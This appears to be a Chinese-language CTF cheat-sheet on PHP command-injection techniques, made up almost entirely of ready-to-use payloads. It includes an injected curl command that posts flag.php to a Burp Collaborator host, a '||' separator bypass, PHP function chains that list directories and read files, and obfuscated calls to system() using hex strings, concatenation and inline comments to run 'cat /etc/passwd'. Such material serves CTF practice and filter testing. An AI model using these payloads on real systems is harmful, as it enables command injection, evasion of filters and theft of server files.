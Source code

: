 **1.获取`Collaborator Client`分配给Burp的链接**

```sh
打开Burp主界面 -> 菜单（Burp）-> Collaboraor Client -> 点击
Copy to Clipboard
```

Copy得到

```
jyla6p5cfepdojez34stnodch3ntbi.burpcollaborator.net
```

**2.拼接payload并在命令执行处提交**

```
ip=|curl -X POST -F xx=@flag.php http://jyla6p5cfepdojez34stnodch3ntbi.burpcollaborator.net
```

### >/dev/null 2>&1类无回显

该种无回显我们用分隔符进行分割即可绕过

```sh
?cmd=ls||
```

## 函数绕过

```php
localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号
pos()：返回数组中当前元素的值
scandir()：获取目录下的文件
array_reverse()：将数组逆序排列
next()：函数将内部指针指向下一元素，并输出
```

查看目录的文件：

```php
print_r(scandir(pos(localeconv())))  //当前目录
print_r(scandir('/'))  //查看根目录文件
```

输出目录中倒数第二个文件内容：

```bash
print_r(next(array_reverse(scandir(pos(localeconv())))))
```

array_reverse()和next()自己看着用

### 命令执行函数绕过SYSTEM

```php
system("cat /etc/passwd")
=
"\x73\x79\x73\x74\x65\x6d"("cat /etc/passwd");
=
(sy.(st).em)("cat /etc/passwd");
=
//还可以用注释方法绕过
"system/*fthgb666*/("cat /etc/passwd);"
=
"system/*fthgb666*/(wh./*fthgb666*/(oa)/*fthgb666*/.mi);"
=
"(sy./*fthgb666*/(st)/*fthgb666*/.em)/*fthgb666*/(wh./*fthgb666*/(oa)/*fthgb666*/.mi);"
```
